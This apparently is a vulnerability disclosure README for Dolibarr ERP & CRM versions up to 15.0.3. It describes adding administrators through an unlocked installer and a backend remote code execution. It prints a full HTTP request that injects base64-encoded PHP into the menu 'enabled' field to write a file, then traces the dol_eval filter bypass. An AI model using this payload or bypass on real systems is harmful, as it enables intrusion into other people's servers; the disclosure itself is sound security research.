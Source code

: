 ## 1. Introduction

Dolibarr ERP & CRM is a modern software package that  helps manage your organization's activity (contacts, suppliers,  invoices, orders, stocks, agenda…).

It's an Open Source Software suite (written in PHP with  optional JavaScript enhancements) designed for small, medium or large  companies, foundations and freelancers.

dolibarr<=15.0.3 has an arbitrary add administrator vulnerability and a backend remote code execution vulnerability.



## 2. Vulnerability

### 2.1 add super administrators without authorization

Dolibarr does not automatically add `install.lock` after installation, it needs to be added manually by the user in the `documents` directory. For this feature, you can add as many super administrators as you want, using the section for adding super administrators during installation: `install/step4.php`.

<img src="README.assets/image-20220914174023102.png" alt="image-20220914174023102" style="zoom:50%;" />

<img src="README.assets/image-20220914174040017.png" alt="image-20220914174040017" style="zoom:50%;" />

### 2.2 Backend RCE

Firstly, use the edit function of menus to add malicious data to the database, here we use `file_put_contents` to write files.

```
POST /dolibarr1502/htdocs/admin/menus/edit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 299
Origin: http://localhost
Connection: close
Referer: http://localhost/dolibarr/htdocs/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy&backtopage=%2Fdolibarr%2Fhtdocs%2Fadmin%2Fmenus%2Findex.php
Cookie: PHPSESSID=mtkbsit3sr99f9relns8b9isbf; DOLINSTALLNOPING_017fb6a80b4fcc706353a7f3b168d939=1; DOLSESSID_90637d005b446cd27f1f5444eb5ac092=2m4fegod13gk193u8g7js4nql5
Upgrade-Insecure-Requests: 1

token=5de221f6658ef66579740ae1636d24a6&action=add&menuId=12345671&menu_handler=eldy_menu&user=2&type=1&titre=1&url=1&enabled=1%3D%3D1%29%29%3B%24a%3Dbase64_decode%28%27ZmlsZV9wdXRfY29udGVudHM%3D%27%29%3B%24a%28%27.1234.php%27%2Cbase64_decode%28%27PD9waHAgcGhwaW5mbygpOz8%2BCg%3D%3D%27%29%29%3B%2F%2F
```

<img src="README.assets/image-20220914174400298.png" alt="image-20220914174400298" style="zoom:50%;" />

View the database table `llx_menu` and successfully add malicious data:

<img src="README.assets/image-20220914203120654.png" alt="image-20220914203120654" style="zoom:50%;" />

Secondly, access to `http://localhost/dolibarr1502/htdocs/admin/menus/index.php`, will generate malicious PHP files in the `admin/menus/` directory.

<img src="README.assets/image-20220914174643514.png" alt="image-20220914174643514" style="zoom:50%;" />



## 3. Analysis

The `dol_eval` function in `htdocs/core/lib/functions.lib.php` can execute arbitrary code, the dol_eval caller also in the `verifCond` function in this file. If you can control `$s` and bypass the forbidden restriction (bypass with php features: **variable functions**), you can execute arbitrary code.

<img src="README.assets/image-20220914175138526.png" alt="image-20220914175138526" style="zoom:50%;" />

<img src="README.assets/image-20220914175239958.png" alt="image-20220914175239958" style="zoom:50%;" />

Looking for controllable calls to the `verifCond` function, I found the `menuLoad` method in `htdocs/core/class/menubase.class.php`. The `menuLoad` method has two calls to `verifCond`.

<img src="README.assets/image-20220914200508401.png" alt="image-20220914200508401" style="zoom:50%;" />

But `$memu` is fetched from the database, so go ahead and look at the logic of the `$resql` statement. Focus on the table: `MAIN_DB_PREFIX.menu`, and `m.entity` in `(0, $conf->entity)`, `m.menu_handler IN ($this->db->escape($menu_handler),'all')"`. And `$menu_handler` is the parameter passed in. The condition to be satisfied is: `eldy`

![image-20220914200914426](README.assets/image-20220914200914426.png)

```php
$sql = "SELECT m.rowid, m.type, m.module, m.fk_menu, m.fk_mainmenu, m.fk_leftmenu, m.url, m.titre, m.langs, m.perms, m.enabled, m.target, m.mainmenu, m.leftmenu, m.position";
$sql .= " FROM ".MAIN_DB_PREFIX."menu as m";
$sql .= " WHERE m.entity IN (0,".$conf->entity.")";
$sql .= " AND m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')";
if ($type_user == 0) $sql .= " AND m.usertype IN (0,2)";
if ($type_user == 1) $sql .= " AND m.usertype IN (1,2)";
$sql .= " ORDER BY m.position, m.rowid";
```

So, we need to find the code to insert or modify the table `MAIN_DB_PREFIX.menu`.

<img src="README.assets/image-20220914201200047.png" alt="image-20220914201200047" style="zoom:50%;" />

The `create` function, also located in `htdocs/core/class/menubase.class.php`, is used to add a piece of data to `MAIN_DB_PREFIX.menu`, focusing on `perms`, `enabled`, `entity`, and `menu_handler`. handler`, where `entity` is `$conf->entity` which just meets the conditions described above.

<img src="README.assets/image-20220914201651973.png" alt="image-20220914201651973" style="zoom:50%;" />

Keep track of the remaining three variables, located in `htdocs/admin/menus/edit.php`, all of which we can control.

<img src="README.assets/image-20220914201706559.png" alt="image-20220914201706559" style="zoom:50%;" />

